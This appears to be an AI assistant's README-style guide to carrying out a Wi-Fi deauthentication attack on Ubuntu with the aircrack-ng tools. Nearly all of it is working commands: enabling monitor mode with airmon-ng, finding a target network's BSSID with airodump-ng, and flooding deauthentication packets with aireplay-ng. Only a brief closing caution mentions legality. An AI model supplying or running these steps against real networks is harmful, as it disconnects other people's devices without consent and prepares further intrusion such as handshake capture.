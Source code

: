 Here's a basic README for performing a deauthentication attack using `airmon-ng` in Ubuntu:

---

# Deauthentication Attack using `airmon-ng` on Ubuntu

This guide will walk you through the steps to execute a deauthentication attack on a wireless network using `airmon-ng` tool in Ubuntu.

## Prerequisites

- Ubuntu OS installed
- Wireless network interface (e.g., wlan0)
- `airmon-ng` tool installed (usually comes pre-installed with `aircrack-ng` suite)

## Steps

1. **Open Terminal**: Press `Ctrl + Alt + T` to open the terminal.

2. **Check Wireless Interface**: Determine the name of your wireless network interface. Use the following command:
    ```bash
    iwconfig
    ```
    Identify your wireless interface (e.g., wlan0).

3. **Put Wireless Interface in Monitor Mode**: Use `airmon-ng` to put your wireless interface in monitor mode. Replace `wlan0` with your wireless interface name:
    ```bash
    sudo airmon-ng start wlan0
    ```
    This command will create a new monitor interface (usually `wlan0mon`).

4. **Check Monitor Interface**: Verify that the monitor mode has been enabled by running:
    ```bash
    iwconfig
    ```
    You should see your interface listed in monitor mode (e.g., `wlan0mon`).

5. **Scan for Target Networks**: Use `airodump-ng` to scan for nearby wireless networks and find the target's BSSID (MAC address) and channel:
    ```bash
    sudo airodump-ng wlan0mon
    ```
    Identify the BSSID and channel of the target network.

6. **Execute Deauthentication Attack**: Open a new terminal window or tab and execute the deauthentication attack using the following command:
    ```bash
    sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
    ```
    Replace `<BSSID>` with the BSSID of the target network obtained from the previous step.

    `-0` flag specifies the deauthentication attack.
    `5` represents the number of deauthentication packets to send. Adjust as needed.

7. **Monitor Activity**: Switch back to the first terminal where `airodump-ng` is running. You should see devices disconnecting and attempting to reconnect to the target network.

8. **Exit Monitor Mode**: Once you've completed the attack, exit monitor mode using:
    ```bash
    sudo airmon-ng stop wlan0mon
    ```
    Replace `wlan0mon` with your monitor interface name if different.

## Notes
- **Caution**: Deauthentication attacks can be illegal if performed without proper authorization. Ensure you have permission before conducting such tests.
- Use responsibly and in controlled environments.
- Be mindful of the laws and regulations related to wireless network security in your area.
